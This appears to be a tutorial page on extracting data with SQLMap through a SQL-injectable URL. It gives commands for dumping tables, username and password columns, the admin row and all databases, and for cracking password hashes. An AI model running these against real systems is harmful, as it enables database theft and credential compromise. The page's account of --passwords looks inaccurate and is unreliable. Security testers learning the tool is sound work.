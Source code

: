 ```yaml
---
title: Data Extraction Techniques
description: Learn how to extract data from databases using SQLMap
---
```


# Data Extraction Techniques

After identifying the database structure, you can extract data from specific tables and columns of interest.

## Dumping Table Data (`--dump`)

To extract all data from a specific table:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" -D database_name -T table_name --dump
```

This command retrieves all records from the specified table. For large tables, SQLMap will ask if you want to retrieve all entries or a subset.

## Dumping Specific Columns (`-C`)

To extract data from specific columns only:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" -D database_name -T table_name -C "username,password,email" --dump
```

This is useful when you're only interested in certain columns, especially in tables with many columns or large amounts of data.

## Conditional Data Extraction (`--where`)

To extract records that match specific criteria:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" -D database_name -T users -C "username,password" --dump --where "username='admin'"
```

This allows you to filter the data based on specific conditions, similar to a SQL WHERE clause.

## Extracting a Range of Records (`--start` and `--stop`)

For large tables, you can extract a specific range of records:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" -D database_name -T users --dump --start 1 --stop 100
```

This retrieves only records 1 through 100, which is useful for paginating through large datasets.

## Dumping All Databases (`--dump-all`)

To extract data from all tables in all databases:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --dump-all
```

<Note title="Warning">
This can generate a massive amount of data and take a very long time to complete. Use with caution and only when necessary.
</Note>

## Password Cracking (`--passwords`)

SQLMap can attempt to identify and crack password hashes:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --passwords
```

This command:
1. Identifies tables that might contain password hashes
2. Extracts the hashes
3. Attempts to crack them using a dictionary attack or brute force

You can also specify a custom wordlist with `--passwords-file=/path/to/wordlist.txt`.

## Optimizing Data Extraction

For large databases, consider these optimization techniques:

- Use `--threads` to speed up data extraction
- Use `--dump-format=CSV` to output data in a more manageable format
- Use `--binary-fields` to specify which fields contain binary data
- Use `--hex` to retrieve data in hexadecimal format for binary fields

These options can significantly improve the efficiency of data extraction, especially for large databases with complex data types.
